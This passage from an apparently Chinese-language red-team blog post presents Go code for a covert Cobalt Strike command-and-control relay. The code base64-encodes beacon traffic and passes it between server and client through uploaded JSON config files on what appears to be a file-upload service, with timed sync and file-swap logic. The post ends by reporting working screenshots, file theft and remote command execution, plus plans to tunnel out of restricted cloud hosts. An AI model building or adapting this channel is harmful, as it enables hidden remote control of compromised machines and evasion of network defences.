                    if strings.Contains(buffer.String(), "0\r\n\r\n") {
                        break
                    }
                }
            }

            log.Println("[+]", "从CS服务器接受完毕")
            break
        }
    }

    b64 := base64.StdEncoding.EncodeToString(buffer.Bytes())
    Send("Send-Server.json", "server.zip", b64)
    log.Println("[+]", "服务器数据发送完毕")
}
```

### 同步配置文件

#### 服务端

准点时候执行该操作，fileLock.Lock() 进行锁定，在一定的时间内正常心跳不会把配置文件给覆盖了。获取新的配置文件并且修改原始的配置文件里面的success值，来区别是client还是server，等待客户端请求到success以后进行下载。

```
func timedownload2() {

    for {
        // 等待下一个整点或半点
        waitForNextHalfHour()
        log.Println("[+]", "每隔 20 分钟执行一次上传任务")
        // 加锁，暂停服务端对文件的访问
        fileLock.Lock()
        // 第一次执行上传任务
       err := GetUploadToken("Send-Client-tmp.json", "client")
        if err != nil {
            log.Println("[-]", "获取Send-Client-tmp.json令牌失败：", err)
        } else {
            // 调用Sendtmp函数
            Sendtmp("Send-Server.json", "Send-Client-tmp.json")
            log.Println("[+]", "Send-Client-tmp.json发送成功")
        }

        time.Sleep(60 * time.Second)

        // 第二次执行上传任务
        err = GetUploadToken("Send-Server-tmp.json", "server")
        if err != nil {
            log.Println("[-]", "获取Send-Server-tmp.json令牌失败：", err)
        } else {
            // 调用Sendtmp函数
            Sendtmp("Send-Server.json", "Send-Server-tmp.json")
            log.Println("[+]", "Send-Server-tmp.json发送成功")
        }
        time.Sleep(60 * time.Second)
        // 重命名文件
        serverNewPath := "Send-Client.json"
        err = renameFile("Send-Client-tmp.json", serverNewPath)
        if err != nil {
            log.Fatalf("重命名 client 文件时发生错误: %v", err)
        }


        os.Remove("Send-Client-tmp.json")
        serverNewPath1 := "Send-Server.json"
        err = renameFile("Send-Server-tmp.json", serverNewPath1)
        if err != nil {
            log.Fatalf("重命名 server 文件时发生错误: %v", err)

        }


        os.Remove("Send-Server-tmp.json")

        // 释放锁，恢复服务端对文件的访问

        fileLock.Unlock()

        // 休眠1分钟，防止任务重复执行
        time.Sleep(60 * time.Second)
    }

}
```



运行后等待服务器来下载

#### 客户端

判端接收服务端的信息是否有success（配置文件）  
如果有这个配置文件那么把这个文件保存下来到本地Send-Server11.json，然后

```
if strings.HasPrefix(currentContent, `{"success`) {
                processContentAndSave(currentContent)
                if FileExists(getProgramDir()+"Send-Server11.json") && FileExists(getProgramDir()+"Send-Client11.json") {
                    clientNewPath := getProgramDir() + "Send-Client.json"
                    os.Remove(clientNewPath)
                    err = renameFile(getProgramDir()+"Send-Client11.json", clientNewPath)
                    if err != nil {
                        log.Fatalf("重命名 server 文件时发生错误: %v", err)
                    }
                    os.Remove(getProgramDir() + "Send-Client11.json")
                    time.Sleep(5 * time.Second)
                    serverNewPath := getProgramDir() + "Send-Server.json"
                    os.Remove(serverNewPath)
                    err = renameFile(getProgramDir()+"Send-Server11.json", serverNewPath)
                    if err != nil {
                        log.Fatalf("重命名 server 文件时发生错误: %v", err)
                    }
                    os.Remove(getProgramDir() + "Send-Server11.json")
                }
            }


func processContentAndSave(currentContent string) {
    var fileName string

    if strings.Contains(currentContent, "client") {
        fileName = getProgramDir() + "Send-Client11.json"
        log.Println("[+]", "判断是否存在 client 文件")

    } else if strings.Contains(currentContent, "server") {
        fileName = getProgramDir() + "Send-Server11.json"
        log.Println("[+]", "判断是否存在 server 文件")

    } else {
        log.Println("[-]", "内容既不包含 client 也不包含 server，跳过处理")
        return
    }

    log.Println("[+]", "文件名:", fileName)

    if _, err := os.Stat(fileName); os.IsNotExist(err) {
        saveToFile(fileName, string(currentContent))
        log.Println("[+]", "文件不存在，已保存为:", fileName)
    } else if err == nil {
        log.Println("[+]", "文件已存在，跳过保存:", fileName)
    } else {
        log.Println("[-]", "检查文件时发生错误:", err)
    }
}
```

## CS配置

配置监听  


随便生成个beacon执行，进行测试。测试截屏、多文件下载、执行命令都没问题。

截图



下载文件

执行命令



## 最后

1. 单文件交互的话多个主机上线执行过程可能会有冲突，但是搞搞上线，获取一些信息。
2. 后续尝试一下代理看能不能通过这种方式能出来。
3. 也可以考虑每个版本语言写一个文件上传读取功能，遇到云上无法利用等情况，最大化利用。
4. 学习为主，有什么建议或者有更好的想法可以交流。

代码发给同事研究了一下，本地复现可以按照下列方便～

<https://blog.csdn.net/bring_coco/article/details/144015218?spm=1001.2014.3001.5502>
